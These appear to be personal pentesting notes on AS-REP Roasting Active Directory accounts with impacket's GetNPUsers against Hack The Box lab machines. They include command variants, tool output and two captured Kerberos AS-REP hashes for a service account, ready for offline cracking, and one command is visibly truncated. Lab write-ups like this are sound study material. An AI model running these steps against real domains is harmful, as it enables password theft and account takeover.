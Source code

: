 ## [Cracking Active Directory Passwords with AS-REP Roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)

> AS-REP Roasting is a technique that enables adversaries to steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.

Using anonymous bind you can enumerate LDAP and get a list of valid usernames.

Then, you may use the GetNPUsers script from the impacket to check which of these usernames has Kerberos pre-authentication disabled.

This is called AS-REP-Roasting.

```
GetNPUsers htb.local/ -r
```

```
impacket- htb.local/
```
```
impacket-GetNPUsers htb.local/ -dc-ip $ip
```
```
GetNPUsers htb.local/ -r
```
```
impacket-GetNPUsers htb.local/ -request
```
## Works with Forest, but not with Active
### Forest vulnerable to ASREP, but not with Active
```
$ impacket-GetNPUsers htb.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:09:07.367813  2023-08-02 11:47:00.513833  0x410200
```
```
$ impacket-GetNPUsers active.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```

### Common Mistake - Domain Name without "/" suffix
```
$ impacket-GetNPUsers htb.local  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Domain should be specified!
```

```
$ impacket-GetNPUsers htb.local/ -request  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:10:42.227380  2023-08-02 11:47:00.513833  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:282f708038e3d413dcbb692377168a0c$a57ae2b2cd5cd99d5c063f53c3321feef6b6d805cf318cadeb5be31c297541b0cfaa35b0e447eed21def3b6c9f472d64cf381b51429abab7bea41cf769be50aaeed52dcce3e8c5f9c1b6686d62d2ca217ee369c810ad582a046fa5f093fa6f9891daf3e02b6b0c576b9b28fc37c8a615d499c7303497b21873cd9bdc1d01f69d628dd66bdf63cdae985a50f0d6dd30b9ecd59e6fd56610cf2a63bf58920ceff8c28a81c8ec0aedf3e68cee83986c094af2caa38423435923fcfecea279d816b5e601436a7b10e1b966771e7f8cb3cc5f3ada3c375f2c8f2fc1b1a4d658eb28d2307331eb653a
```
```
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip 10.10.10.161
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200
```
```
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200



$krb5asrep$23$svc-alfresco@HTB.LOCAL:725910cae0bc4d7afa0f322cf48c22ec$ea47da97143367e99e1f1ace94bef5f4b7d21f23e9496c27e51ae0cb498996b9581cc8fbcbe7ab10db77fbf3da7d27364f9ce868c64eed607c33df0b4d24a0e731fa9dce764e38c6dabaa9103c511771888f02e3c4e1e7bff80a245d78a4dd8e7c8dcf2e1c63e2c55932648bc09000f2e0227c5295d11845f6b0c5471e3246fa2d1ee3ba80f63eb0eef5b10067bfd1ec12f3a2dec5ada44bda4e5402bc3e25d8118e875def2b0798100065ca43f01f2823c758d0943bb54e5c8d20260b2cd4dedce4e8a4558eabee260f1008f33801e9e3bb8802c24065296c42c2c654e662450a05806dc400

C:\Tools\impacket-master\examples>
```
